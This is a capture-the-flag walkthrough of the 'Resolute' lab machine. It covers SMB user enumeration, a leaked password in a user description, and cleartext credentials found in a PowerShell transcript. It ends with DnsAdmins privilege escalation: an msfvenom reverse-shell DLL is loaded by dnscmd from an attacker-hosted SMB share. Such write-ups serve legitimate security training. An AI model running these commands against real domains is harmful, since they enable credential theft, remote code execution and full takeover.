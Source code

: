 # 📦 Resolute

<figure><img src="../../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

Ok i start off by scanning for open ports and i found domain megacorp.local

then i try user enumeration via netexec --users flag and find plenty of users and a password in the description:

```
nxc smb 10.129.59.106 -u '' -p '' --users > preusers.txt
```

<figure><img src="../../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

Not the cleanest ouput but hey:

```
grep '^SMB' preusers.txt | grep -oP '^\S+\s+\S+\s+\S+\s+\S+\s+\K\S+'
```

Then i look at the SMB shares that i can access:

<figure><img src="../../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

Nothing in netlogon but a folder in sysvol so i go and dl everything and look at the content but find nothing, then i try out some other stuff but don't manage to get anything, so i try to see if the creds work with winrm, it does so i connect:

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

After enumerating and running winpeas i did not find anything so i started to look for hidden files:

```sh
*Evil-WinRM* PS C:\> gci -Hidden
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        2/20/2025   2:56 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
...
```

and in C:\PSTranscripts\20191203 i found a log file with cleartext credentials for ryan so i login with ryan

```
evil-winrm -i 10.129.59.106 -u ryan -p 'Serv3r4Admin4cc123!'
```

and i find a note in his desktop:

<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

After enumerating for a bit we see that the user is part of DNSadmins:

<figure><img src="../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

We can then find this article:

{% embed url="https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2" %}

So i create my malicious DLL with msfvenom ->

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f dll > privesc.dll
```

then i launched a smbserver with a share where i host my dll:

```
smbserver.py myshare ./
```

use dnscmd and the command **modifies the DNS server configuration** to load `privesc.dll` as a server-level plugin and since the DLL is hosted on an attacker's SMB share (`10.10.14.173`), the **DNS server will attempt to fetch and execute it**.

```
dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.173\myshare\privesc.dll
```

start and stop the dns service after setting up a listener and wait for my admin shell:

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>
